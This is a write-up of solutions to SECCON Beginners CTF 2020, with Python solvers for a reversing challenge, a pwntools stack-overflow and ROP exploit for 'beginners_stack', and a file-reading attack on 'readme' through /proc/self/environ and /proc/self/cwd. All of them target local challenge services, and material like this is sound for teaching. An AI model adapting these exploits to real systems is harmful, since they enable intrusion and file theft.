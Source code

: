 # SECCON Beginners CTF 2020

- https://github.com/SECCON/Beginners_CTF_2020

## rev

### mask

IDA または Ghidra で逆コンパイル

```c
local_98[local_e0] = local_d8[local_e0] & 0x75;
local_58[local_e0] = local_d8[local_e0] & 0xeb;

"atd4`qdedtUpetepqeUdaaeUeaqau"
"c`b bk`kj`KbababcaKbacaKiacki"
```

#### Solution 1

- https://gchq.github.io/CyberChef/#recipe=OR(%7B'option':'UTF8','string':'c%60b%20bk%60kj%60KbababcaKbacaKiacki'%7D)&input=YXRkNGBxZGVkdFVwZXRlcHFlVWRhYWVVZWFxYXU

#### Solution 2

```python
#!/usr/bin/env python3
a = bytes(b'atd4`qdedtUpetepqeUdaaeUeaqau')
b = bytes(b'c`b bk`kj`KbababcaKbacaKiacki')
print(bytes([x | y for x, y in zip(a, b)]).decode())
```

#### Solution 3

```python
#!/usr/bin/env python3
a = b'atd4`qdedtUpetepqeUdaaeUeaqau'
b = b'c`b bk`kj`KbababcaKbacaKiacki'
answer = ''
for i in range(len(a)):
    for c in range(0x20, 0x7f):
        if c & 0x75 == a[i] and c & 0xeb == b[i]:
            answer += chr(c)
            print(answer)
            break
```

#### solution 4

```python
#!/usr/bin/env python3
import angr
import claripy
proj = angr.Project('./mask', auto_load_libs=False)
max_len = 64
prefix = b'ctf4b{'
arg1 = claripy.BVS('arg1', 8*max_len)
state = proj.factory.entry_state(args=[proj.filename, arg1])
for c in arg1.chop(8):
    state.solver.add(claripy.Or(claripy.And(c >= 0x20, c <= 0x7e), c == 0))
for i, ch in enumerate(prefix):
    state.solver.add(arg1.get_byte(i) == ch)
simgr = proj.factory.simgr(state)
simgr.explore(find=lambda s: b'Correct' in s.posix.dumps(1),
              avoid=lambda s: b'Wrong' in s.posix.dumps(1))
print(simgr)
if simgr.found:
    found = simgr.found[0]
    flag = found.solver.eval(arg1, cast_to=bytes)
    print('FLAG:', flag.split(b'\x00')[0].decode())
else:
    print('No solution found')
```

## pwn

### beginners_stack

#### Solution 1

```python
#!/usr/bin/env python3
from pwn import ELF, ROP, context, p64, process, log, remote
exe = context.binary = ELF('chall')
# io = process([exe.path])
io = remote('::1', 9001)
rop = ROP(exe)
rop.raw(rop.ret)
io.sendafter(b'Input: ', b'A'*0x20 + b'B'*0x8 + rop.chain()
             + p64(exe.symbols['win']))
io.sendlineafter(b'Congratulations!\n', b'cat flag.txt')
log.success(io.recvall(2).decode())
io.close()
```

## misc

### readme

#### Solution 1

```python
#!/usr/bin/env python3
from pwn import log, remote
import re
io = remote('::1', 9712)
io.sendlineafter(b'File: ', b'/proc/self/environ')
log.success('CWD: %s', re.findall(
    b'PWD=(.+?)\x00', io.recvline())[0].decode(errors='ignore'))
io.close()
io = remote('::1', 9712)
io.sendlineafter(b'File: ', b'/proc/self/cwd/../flag')
log.success('FLAG: %s', io.recvline().decode(errors='ginore'))
io.close()
```
